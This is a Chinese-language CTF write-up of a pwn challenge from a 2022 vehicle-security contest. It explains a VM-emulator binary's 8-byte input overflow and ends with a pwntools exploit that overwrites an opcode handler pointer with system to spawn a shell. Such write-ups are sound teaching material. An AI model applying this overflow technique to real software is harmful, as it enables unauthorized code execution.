 ```yaml
---
layout: article
pageview: true
key: 2022-04-14-IoV2022-pwn-wp
title: 车联网安全大赛2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```



<!--more-->

## chall

第一道做出来的vm题，虽然是赛后复现的

没有PIE，没有去符号表，比较友善

题目申请了一个很大的堆，并且在堆的后半部分按规律写入了`nop mov mvi`三个函数的地址，在`ptr+24`处读入用户输入后开始模拟

![image.png](https://s2.loli.net/2022/04/15/MqH5pLbgVuT9XPk.png)

![image.png](https://s2.loli.net/2022/04/15/IxweSDzl15uoJPF.png)

每次模拟指令会从`ptr+8`处读取`pc`，再读取`ptr+12+pc`处的字符`mem`，则此次模拟的函数为`ptr+mem+2050`处储存的函数，以`ptr`为参数执行函数后，`pc`++

题目的漏洞点为，输入数据时会多溢出8个字节，可以覆盖字符`\x00`对应的函数，而且题目中提供了`system`函数

`mvi`函数的功能是根据指令将后一个字符复制到`ptr`的前几位，配合溢出可以构造`payload`执行`system("sh")`

![image.png](https://s2.loli.net/2022/04/15/aeKpPHtQhbRZSMU.png)

题目比较迷惑的一点是，输入的内容存在`ptr+24`，取内存时却是从`ptr+12`开始取，所以当`pc`为12前，会执行12次`\x00`对应的函数

搞明白程序流程后，exp就很简单了

```python
from pwn import *
context(arch='amd64')

local=1
_elf='./chall'

elf=ELF(_elf)

def getConn():
    if local ==1:
        return process(_elf)
    else:
        return remote(addr,port)

def debug(p,cmd=None):
    if local==1:
        gdb.attach(p,cmd)

nop=0x401437
mov=0x40165b
mvi=0x401505
system=0x4010d0

p=getConn()

p.sendline((b'\x3e\x73\x06\x68\x00').ljust(0x3ff8,b'@')+p64(system))

p.interactive()
```